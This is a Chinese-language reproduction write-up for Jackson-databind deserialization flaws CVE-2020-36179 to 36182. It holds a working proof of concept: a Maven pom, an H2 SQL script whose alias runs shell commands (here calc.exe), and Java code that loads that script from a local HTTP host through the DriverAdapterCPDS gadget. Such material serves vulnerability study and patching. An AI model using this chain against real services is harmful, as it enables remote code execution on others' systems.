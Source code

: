 # Jackson-databind SSRF&RCE CVE-2020-36179~36182

# Jackson-databind SSRF&RCE CVE-2020-36179~36182

## 漏洞描述

漏洞类型：JDNI注入导致RCE

利用条件：

- 开启enableDefaultTyping()
- 使用了org.apache.servicemix.bundles第三方依赖库

以下类绕过了之前jackson-databind维护的黑名单类，并且JDK版本较低的话，可造成SSRF&RCE：

- CVE-2020-36179：org.apache.commons.dbcp.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36180:  org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36181:  org.apache.tomcat.dbcp.dbcp.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36182:  org.apache.tomcat.dbcp.dbcp2.cpdsadapter.DriverAdapterCPDS

参考链接：

- https://github.com/Al1ex/CVE-2020-36179

## 漏洞影响

```
Jackson-databind < 2.9.10.7
```

## 漏洞复现

pom.xml：

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>com.jacksonTest</groupId>
    <artifactId>jacksonTest</artifactId>
    <version>1.0-SNAPSHOT</version>
    <dependencies>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.9.10.7</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.commons/commons-dbcp2 -->
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-dbcp2</artifactId>
            <version>2.8.0</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/com.h2database/h2 -->
        <dependency>
            <groupId>com.h2database</groupId>
            <artifactId>h2</artifactId>
            <version>1.4.199</version>
        </dependency>

        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-nop</artifactId>
            <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
        <dependency>
            <groupId>javax.transaction</groupId>
            <artifactId>jta</artifactId>
            <version>1.1</version>
        </dependency>
    </dependencies>
</project>
```

exec.sql：

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('calc.exe')
```

poc.java：

```
import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.SerializationFeature;


public class POC {
    public static void main(String[] args) throws Exception {
        String payload = "[\"org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS\",{\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:3333/exec.sql'\"}]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        mapper.configure(SerializationFeature.FAIL_ON_EMPTY_BEANS, false);
        Object obj = mapper.readValue(payload, Object.class);
        mapper.writeValueAsString(obj);
    }
}
```

![](images/20221206110853.jpg)

Gadget：

```
DriverAdapterCPDS
    ->seturl
        ->getPooledConnection
            ->DirverManager.getConnection(this.url,username,pass)
```


